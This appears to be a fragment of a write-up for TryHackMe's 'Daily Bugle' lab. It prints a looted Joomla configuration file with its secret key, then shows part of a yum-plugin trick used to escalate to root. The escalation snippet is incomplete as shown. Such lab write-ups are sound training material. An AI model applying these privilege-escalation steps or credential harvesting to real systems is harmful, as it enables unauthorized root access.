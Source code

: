 ```bash
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '127.0.0.1';
	public $ftp_port = '21';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'jonah@tryhackme.com';
	public $fromname = 'The Daily Bugle';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = 'New York City tabloid newspaper';
	public $MetaKeys = '';
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/administrator/logs';
	public $tmp_path = '/var/www/html/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
```

Then used this to get to root:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

```